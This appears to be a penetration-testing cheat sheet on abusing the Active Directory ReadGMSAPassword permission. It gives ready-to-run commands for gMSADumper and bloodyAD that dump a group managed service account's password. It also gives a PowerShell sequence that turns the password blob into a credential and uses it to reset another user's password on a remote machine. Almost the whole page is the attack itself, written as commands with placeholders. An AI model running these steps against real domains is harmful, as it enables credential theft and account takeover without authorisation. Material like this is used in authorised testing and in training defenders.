 ```yaml
---
title: "ReadGMSAPassword"
date: 2024-7-23
tags: ["ReadGMSAPassword", "gMSADumper", "active driectory", "ad", "Windows"]
---
```


---
### Abuse #1: Read GMSAPassword (From Linux)

#### gMSADumper

[gMSADumper](https://github.com/micahvandeusen/gMSADumper)

```bash
python3 gMSADumper.py -u <USER> -p <PASSWORD> -l <TARGET> -d <DOMAIN>
```

#### bloodAD

[bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p <PASSWORD> --host <DC> get object <TARGET_OBJECT> --attr msDS-ManagedPassword
```

### Abuse #2: Save as Cred (From Windows)

```powershell
$gmsa = Get-ADServiceAccount -Identity <TARGET_NAME> -Properties 'msDS-ManagedPassword'
```

```powershell
$mp = $gmsa.'msDS-ManagedPassword'
```

```powershell
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```powershell
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```powershell
$cred = New-Object System.Management.Automation.PSCredential <TARGET_NAME>, $SecPass
```

```powershell
# For example, change password of another target user
Invoke-Command -ComputerName <COMPUTER_NAME> -ScriptBlock {Set-ADAccountPassword -Identity <ANOTHER_TARGET_NAME> -reset -NewPassword (ConvertTo-SecureString -AsPlainText '<PASSWORD>' -force)} -Credential $cred
```

<br>